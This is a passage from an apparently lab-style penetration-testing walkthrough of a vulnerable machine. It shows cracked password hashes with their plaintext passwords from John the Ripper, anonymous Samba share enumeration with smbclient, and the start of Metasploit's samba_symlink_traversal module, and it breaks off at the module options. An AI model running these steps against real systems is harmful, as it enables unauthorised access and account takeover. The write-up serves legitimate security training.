 We were able to crack each one:
{% codeblock %}
root@kali32:~# john garbage.hash --show
root:albatros:15018:0:::::
mhog:mhog:15019:0:::::0
tskies:nostradamus:15019:0:::::0

3 password hashes cracked, 0 left
{% endcodeblock %}

Now we can log in as root via ssh, but because this was too easy, we decided to
explore samba service too.
{% codeblock %}
root@kali32:~# smbclient -L\\ -I 10.8.7.2
Enter root's password:
Anonymous login successful
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.23c]

        Sharename       Type      Comment
        ---------       ----      -------
        homes           Disk      Home directories
        tmp             Disk      Temporary file space
        IPC$            IPC       IPC Service (Samba server by Rattus labs)
Anonymous login successful
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.23c]

        Server               Comment
        ---------            -------
        LOOPHOLE             Samba server by Rattus labs

        Workgroup            Master
        ---------            -------
        WORKGROUP            LOOPHOLE


root@kali32:~# smbclient //10.8.7.2/tmp
Enter root's password:
Anonymous login successful
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.23c]
smb: \> dir
  .                                   D        0  Fri May 15 10:56:12 2015
  ..                                  D        0  Fri May 15 12:55:54 2015
  session_mm_apache0.sem              N        0  Fri May 15 10:56:12 2015
  .X11-unix                          DH        0  Fri May 15 10:56:00 2015
  .ICE-unix                          DH        0  Fri May 15 10:56:00 2015

                37571 blocks of size 4096. 0 blocks available
{% endcodeblock %}

The /tmp directory is writable. We can use samba_symlink_traversal exploit in
Metasploit:

{% codeblock %}
msf auxiliary(samba_symlink_traversal) > show options 

Module options (auxiliary/admin/smb/samba_symlink_traversal):
